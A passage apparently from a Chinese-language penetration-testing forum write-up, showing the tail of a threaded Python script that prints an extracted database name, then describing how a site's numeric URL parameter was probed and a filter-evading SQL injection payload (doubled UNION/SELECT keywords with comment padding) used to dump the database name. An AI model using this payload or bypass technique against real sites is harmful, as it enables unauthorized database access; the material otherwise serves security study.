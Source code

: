 ```php
​

•    thread\_list\[s\].join()

​

  print("数据库名:"+database\_name)

​

  end \= time.clock()

​

  times \= end \- start

​

  print("程序运行时间为：%d s"%times)

​

​

if \_\_name\_\_ \== "\_\_main\_\_":

​

  main(14)
```

### 三

访问该站点，观察URL,这样的数字字符感觉有sql注入

![img](https://shs3.b.qianxin.com/attack_forum/2024/08/attach-d8fe2b9df45742d70f00106d4c17001523c1e1b9.jpeg)

单引号,然后简单去构造payload的

![img](https://shs3.b.qianxin.com/attack_forum/2024/08/attach-a30fc727c4524df5b2e58700a6360e3906b31bf0.jpeg)

```php
unionunion /\*/$%^\*/ selectselect 1,database/\*\*/(),3 -- 1
```

成功爆出数据库库名

![img](https://shs3.b.qianxin.com/attack_forum/2024/08/attach-0e4dadd0bca10e6bb5790162cd10711b4e3b6850.jpeg)